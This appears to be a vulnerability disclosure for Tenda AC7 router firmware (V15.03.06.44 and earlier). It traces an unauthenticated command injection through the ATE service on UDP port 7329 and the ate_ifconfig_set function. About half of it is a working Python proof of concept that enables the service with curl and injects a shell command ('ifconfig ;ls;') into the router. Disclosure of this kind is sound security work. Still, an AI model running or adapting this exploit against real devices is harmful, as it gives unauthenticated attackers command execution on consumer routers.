


# Description

Tenda AC7 ate_ifconfig_set has pre-authentication command injection

[firmware download](https://www.tenda.com.cn/download/detail-2776.html)

# Affected version

V15.03.06.44 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called


The `TendaAte` function creates a thread and calls `ate_main_handle`



In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `ifconfig`, the `ate_ifconfig_set` function is entered, in which the `arg` passed in by the user is not checked, and a command injection exists



# POC

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'ifconfig ;' + command + b';'

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```
